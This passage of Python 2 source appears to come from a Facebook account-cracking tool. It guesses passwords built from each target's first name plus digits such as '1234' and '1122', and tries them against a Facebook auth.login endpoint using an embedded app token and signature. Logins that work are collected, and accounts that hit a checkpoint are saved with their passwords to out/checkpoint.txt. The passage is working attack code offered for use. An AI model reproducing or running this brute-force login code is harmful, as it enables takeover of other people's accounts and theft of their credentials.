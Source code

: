 											if 'access_token' in q:
												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + '1234'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '1122'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	